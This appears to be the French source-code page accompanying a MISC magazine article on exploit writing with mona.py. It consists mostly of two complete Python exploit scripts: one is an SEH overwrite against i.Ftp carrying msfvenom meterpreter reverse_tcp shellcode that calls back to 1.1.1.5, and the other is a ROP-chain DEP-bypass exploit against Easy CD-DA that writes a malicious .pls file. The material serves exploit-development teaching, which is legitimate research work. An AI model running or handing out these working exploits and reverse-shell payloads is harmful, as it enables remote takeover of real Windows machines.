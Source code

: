 MISC numéro 77 - Janvier 2015
=======

### Ramonage de vulns avec mona.py

####Synopsis
Défini par Peter Van Eeckhoutte, son auteur, comme la boite à outils du développement d'exploit en environnement win32, mona.py [1] est un plugin qui fonctionne avec Immunity Debugger et WinDBG. Simple d'utilisation, il a l'énorme avantage de réunir les fonctionnalités de bon nombre d'autres outils tout en s'intégrant dans votre débogueur.
Plutôt que de présenter toutes ses possibilités unes par unes, nous allons à travers des exemples pratiques montrer comment il permet de gagner du temps lors de l'écriture d'exploits en environnement Windows.

#### Remerciements
Merci à Alexandre, André (@andremoulu), Fred (@FredzyPadzy), Inti (@SalasRossenbach) Jérôme (JLeonard), l'équipe MISC (@MISCRedac), Mohamed, Peter (@corelanc0d3r), Saâd (@_saadk) et Thomas pour la relecture et l'inspiration.

#### Les liens
- [1] https://github.com/corelan/mona
- [2] https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
- [3] https://www.corelan.beHYPERLINK "https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/"/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
- [4] https://www.corelan.be/index.HYPERLINK "https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/"php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
- [5] https://www.hackinparis.com/slides/hip2k11/04-ProjectQuebec.pdf
- [6] https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/
- [7] http://www.vmware.com/fr/products/player
- [8] https://github.com/corelan/windbglib
- [9] http://www.exploit-db.com/exploits/35177
- [10] http://www.exploit-db.com/exploits/31643
- [11] https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode
- [12] https://github.com/MISCMag/MISC-79
- [13] https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/

#### L'exploit iftp.py (chapitre 4.3)
```
import os,struct,sys
   
outputfile = 'C:\Program Files\Memecode\i.Ftp\Schedule.xml'
size = 20000
offset_to_nseh = 592

junk1 = "A" * offset_to_nseh
nseh = "\xeb\x06\xCC\xCC" # "\xeb\x06" = jmp $+8 = jump to stackadjust
seh = struct.pack('<L',0x10011887) #0x10011887 : pop ecx # pop ecx # ret 0x08 |  {PAGE_EXECUTE_READ} [Lgi.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Memecode\i.Ftp\Lgi.dll)
stackadjust= "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
# ./msfvenom -p windows/meterpreter/reverse_tcp exitfunc=thread lhost=1.1.1.5 R -a x86 --platform windows -b '\x00\x0a\x0d\x20\x22\x3c\x3e' -f python
# Found 22 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai succeeded with size 308 (iteration=0)
buf =  ""
buf += "\xb8\xca\xa4\x97\xb2\xda\xd7\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x47\x83\xc2\x04\x31\x42\x0f\x03\x42\xc5\x46"
buf += "\x62\x4e\x31\x04\x8d\xaf\xc1\x69\x07\x4a\xf0\xa9\x73"
buf += "\x1e\xa2\x19\xf7\x72\x4e\xd1\x55\x67\xc5\x97\x71\x88"
buf += "\x6e\x1d\xa4\xa7\x6f\x0e\x94\xa6\xf3\x4d\xc9\x08\xca"
buf += "\x9d\x1c\x48\x0b\xc3\xed\x18\xc4\x8f\x40\x8d\x61\xc5"
buf += "\x58\x26\x39\xcb\xd8\xdb\x89\xea\xc9\x4d\x82\xb4\xc9"
buf += "\x6c\x47\xcd\x43\x77\x84\xe8\x1a\x0c\x7e\x86\x9c\xc4"
buf += "\x4f\x67\x32\x29\x60\x9a\x4a\x6d\x46\x45\x39\x87\xb5"
buf += "\xf8\x3a\x5c\xc4\x26\xce\x47\x6e\xac\x68\xac\x8f\x61"
buf += "\xee\x27\x83\xce\x64\x6f\x87\xd1\xa9\x1b\xb3\x5a\x4c"
buf += "\xcc\x32\x18\x6b\xc8\x1f\xfa\x12\x49\xc5\xad\x2b\x89"
buf += "\xa6\x12\x8e\xc1\x4a\x46\xa3\x8b\x02\xab\x8e\x33\xd2"
buf += "\xa3\x99\x40\xe0\x6c\x32\xcf\x48\xe4\x9c\x08\xaf\xdf"
buf += "\x59\x86\x4e\xe0\x99\x8e\x94\xb4\xc9\xb8\x3d\xb5\x81"
buf += "\x38\xc2\x60\x05\x69\x6c\xdb\xe6\xd9\xcc\x8b\x8e\x33"
buf += "\xc3\xf4\xaf\x3b\x0e\x9d\x5a\xc1\xd8\xa3\x9b\xc8\x1d"
buf += "\xcc\x99\xca\x0c\x50\x17\x2c\x44\x78\x71\xe6\xf0\xe1"
buf += "\xd8\x7c\x61\xed\xf6\xf8\xa1\x65\xf5\xfd\x6f\x8e\x70"
buf += "\xee\x07\x7e\xcf\x4c\x81\x81\xe5\xfb\x2d\x14\x02\xaa"
buf += "\x7a\x80\x08\x8b\x4c\x0f\xf2\xfe\xc7\x86\x66\x41\xbf"
buf += "\xe6\x66\x41\x3f\xb1\xec\x41\x57\x65\x55\x12\x42\x6a"
buf += "\x40\x06\xdf\xff\x6b\x7f\x8c\xa8\x03\x7d\xeb\x9f\x8b"
buf += "\x7e\xde\x21\xf7\xa8\x26\x54\x19\x69"
junk2 = "C" * (size-len(junk1+nseh+seh+stackadjust+buf))
poc = junk1 + nseh + seh + stackadjust + buf + junk2
header = "\x3c\x3f\x78\x6d\x6c\x20\x76\x65\x72\x73\x69\x6f\x6e\x3d\x22\x31\x2e\x30\x22\x20\x65\x6e\x63\x6f\x64\x69\x6e\x67\x3d\x22"
header += "\x55\x54\x46\x2d\x38\x22\x20\x3f\x3e\x0a\x3c\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a\x09\x3c\x45\x76\x65\x6e\x74\x20\x55"
header += "\x72\x6c\x3d\x22\x22\x20\x54\x69\x6d\x65\x3d\x22\x68\x74\x74\x70\x3a\x2f\x2f\x0a"
footer = "\x22\x20\x46\x6f\x6c\x64\x65\x72\x3d\x22\x22\x20\x2f\x3e\x0a\x3c\x2f\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a"
buffer =  header + poc + footer
print "[+] Creating %s" % outputfile
f = open(outputfile,'wb')
print "[+] Writing %d bytes to file" % len(buffer)
f.write(buffer)
print "[+] Done"
f.close()
```

#### L'exploit easy.py (chapitre 4.4)
```
import os,struct

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x10087fe1,  # POP ECX # RETN [audconv.dll]
      0x0042a0e0,  # ptr to &VirtualProtect() [IAT easycdda.exe]
      0x10041e69,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [audconv.dll]
      0x10035802,  # XCHG EAX,ESI # RETN [audconv.dll]
      0x1000327e,  # POP EBP # RETN [audconv.dll]
      0x00403054,  # & push esp # ret 0x08 [easycdda.exe]
      0x0041c160,  # POP EBX # RETN [easycdda.exe]
      0x00000201,  # 0x00000201-> ebx
      0x1007f883,  # POP EDX # RETN [audconv.dll]
      0x00000040,  # 0x00000040-> edx
      0x10090089,  # POP ECX # RETN [audconv.dll]
      0x00434ce9,  # &Writable location [easycdda.exe]
      0x1005d353,  # POP EDI # RETN [audconv.dll]
      0x100378e6,  # RETN (ROP NOP) [audconv.dll]
      0x1007f18a,  # POP EAX # RETN [audconv.dll]
      0x90909090,  # nop
      0x00429692,  # PUSHAD # INC EBX # ADD CL,CH # RETN [easycdda.exe]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

offset_nseh = 1108	#SEH record (nseh field) at 0x0012f4f4 overwritten with normal pattern : 0x6c42396b (offset 1108)
junk1 = "A" * offset_nseh
nseh = "\x90" * 4
seh = struct.pack('L',0x1001b19b)  		# ADD ESP,0C10 # RETN 0x04 [audconv.dll]
ropnops = struct.pack('L',0x100013ac)  	# RET [audconv.dll]
buf =  ""
buf += "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
buf += "\xdb\xc8\xd9\x74\x24\xf4\xb8\x20\xa5\xd2\xfe\x5e\x33"
buf += "\xc9\xb1\x47\x83\xee\xfc\x31\x46\x14\x03\x46\x34\x47"
buf += "\x27\x02\xdc\x05\xc8\xfb\x1c\x6a\x40\x1e\x2d\xaa\x36"
buf += "\x6a\x1d\x1a\x3c\x3e\x91\xd1\x10\xab\x22\x97\xbc\xdc"
buf += "\x83\x12\x9b\xd3\x14\x0e\xdf\x72\x96\x4d\x0c\x55\xa7"
buf += "\x9d\x41\x94\xe0\xc0\xa8\xc4\xb9\x8f\x1f\xf9\xce\xda"
buf += "\xa3\x72\x9c\xcb\xa3\x67\x54\xed\x82\x39\xef\xb4\x04"
buf += "\xbb\x3c\xcd\x0c\xa3\x21\xe8\xc7\x58\x91\x86\xd9\x88"
buf += "\xe8\x67\x75\xf5\xc5\x95\x87\x31\xe1\x45\xf2\x4b\x12"
buf += "\xfb\x05\x88\x69\x27\x83\x0b\xc9\xac\x33\xf0\xe8\x61"
buf += "\xa5\x73\xe6\xce\xa1\xdc\xea\xd1\x66\x57\x16\x59\x89"
buf += "\xb8\x9f\x19\xae\x1c\xc4\xfa\xcf\x05\xa0\xad\xf0\x56"
buf += "\x0b\x11\x55\x1c\xa1\x46\xe4\x7f\xad\xab\xc5\x7f\x2d"
buf += "\xa4\x5e\xf3\x1f\x6b\xf5\x9b\x13\xe4\xd3\x5c\x54\xdf"
buf += "\xa4\xf3\xab\xe0\xd4\xda\x6f\xb4\x84\x74\x46\xb5\x4e"
buf += "\x85\x67\x60\xc0\xd5\xc7\xdb\xa1\x85\xa7\x8b\x49\xcc"
buf += "\x28\xf3\x6a\xef\xe3\x9c\x01\x15\x63\xa2\xd4\x14\x76"
buf += "\xcc\xd4\x16\x69\x50\x50\xf0\xe3\x78\x34\xaa\x9b\xe1"
buf += "\x1d\x20\x3a\xed\x8b\x4c\x7c\x65\x38\xb0\x32\x8e\x35"
buf += "\xa2\xa2\x7e\x00\x98\x64\x80\xbe\xb7\x88\x14\x45\x1e"
buf += "\xdf\x80\x47\x47\x17\x0f\xb7\xa2\x2c\x86\x2d\x0d\x5a"
buf += "\xe7\xa1\x8d\x9a\xb1\xab\x8d\xf2\x65\x88\xdd\xe7\x69"
buf += "\x05\x72\xb4\xff\xa6\x23\x69\x57\xcf\xc9\x54\x9f\x50"
buf += "\x31\xb3\x21\xac\xe4\xfd\x57\xdc\x34"
junk2 = "B" * 10000

buffer = junk1 + nseh + seh + ropnops * 23 + rop_chain + buf + junk2

print "[+] Length of total buffer: %s" % len(buffer)
print "[+] Writing sploit in c:\\temp\\ecr.pls"
file = open('c:\\temp\\ecr.pls','wb')
file.write(buffer)
file.close()
```

